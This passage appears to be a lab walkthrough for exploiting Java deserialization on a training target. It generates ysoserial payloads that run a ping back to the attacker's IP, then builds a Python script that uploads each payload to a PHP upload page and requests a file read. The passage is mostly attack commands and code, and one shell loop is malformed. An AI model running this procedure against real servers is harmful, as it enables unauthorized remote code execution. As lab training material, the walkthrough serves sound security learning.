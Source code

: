 Command:
```bash
cat payloads.txt
```

The result will look similar to this.

Step 2: Generate a payload for each line of the aforementioned list.

> [Note] We are going to ping the IP of the attacker machine not the target machine.

Change the directory to home so that we can list all the payloads easily here.

Command:
```bash
cd /home
```

Use the following command to generate payloads.

Command:
```bash
while read payloadname; do java -jar ../root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar $payloadname "ping 192.91.247.2 -c 3" > $payloadname; done < payloads.txt
```

The result will look similar.

Step 3: Construct an exploit in Python that will mimic using the website.

It will need to take a list of payloads (we have them by name, we will shortly turn the list into a list of filenames). Moreover, the exploit will need to issue two requests one after the other - the "upload" one and immediately after it the "read file" one.

In the below examples we are using Python 3. Note we are accessing the target machine website so we need to use that IP address.

The "read file" request might look like the one below.
```bash
def readfile(filename):
  url = "http://demo.ine.local/upload/index.php?sent=OK"
  r = requests.get(url)
  print("[+] Used filename: " + filename)
  print(r.text)
  print("\n")
```

Then, the "upload_file" request can be similar to the below.
```bash
def upload(filename):
  url = "http://demo.ine.local/upload/upload.php"
  files ={'uploaded_file': open(filename, 'rb')}
  r = requests.post(url, files=files)
```

Step 4: We will also need a list of all payload files by their name. Since each file is named after the payload, we can use the "yso" file again to generate a list (as we don't want to retype it manually).
```bash
while read payload; do /root/payloads.txt echo \'$payload\', >> /root/p2.txt; done < /root/payloads.txt
```
